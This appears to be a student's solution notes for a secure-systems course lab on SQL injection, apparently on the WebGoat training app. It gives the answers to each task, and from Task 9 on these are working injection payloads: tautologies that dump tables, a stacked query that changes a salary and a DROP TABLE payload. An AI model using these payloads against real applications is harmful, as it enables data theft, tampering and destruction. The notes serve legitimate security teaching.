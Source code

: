 ```yaml
---
title: "Design Sicherer Systeme - Labor Lösungen"
author: [Thomas Gingele]
date: "2023-10-09"
---
```


# Notes

## Registered User:

```
leastsignificantbit:password
```

## (A1) Injection

### SQL Injection (intro)

#### Task 1

No answer needed.

#### Task 2

Look at the example table. Try to retrieve the department of the employee Bob Franco. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

```sql
SELECT department FROM employees WHERE userid = 96134
```

#### Task 3

Try to change the department of Tobi Barnett to 'Sales'. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

```sql
UPDATE employees SET department='Sales' WHERE userid = 89762
```

#### Task 4

Try to modify the schema by adding the column "phone" (varchar(20)) to the table "employees".

```sql
ALTER TABLE employees ADD phone varchar(20)
```

#### Task 5

Try to grant rights to the table `grant_rights` to user `unauthorized_user`.

```sql
GRANT SELECT ON grant_rights TO unauthorized_user
```

#### Task 6

No answer needed.

#### Task 7

No answer needed.

#### Task 8

No answer needed.

#### Task 9

Try using the form below to retrieve all the users from the users table. You should not need to know any specific user name to get the complete list.

```sql
SELECT * FROM user_data WHERE first_name = 'Smith' OR '1' = '1'
```

#### Task 10

Using the two Input Fields below, try to retrieve all the data from the users table.

```sql
Login_Count: 0
User_Id    : 0 OR 1=1
```

#### Task 11

Use the form below and try to retrieve all employee data from the employees table.

```sql
Employee Name     : Bit
Authentication TAN: 0' OR '1'='1
```

#### Task 12

Change your own salary so you are earning the most.

```sql
Employee Name     : Smith
Authentication TAN: 3SL99A'; UPDATE employees SET salary='99999999' WHERE userid = '37648
```

#### Task 13

Delete the `access_log` table.

```sql
"'; DROP TABLE access_log -- -
```
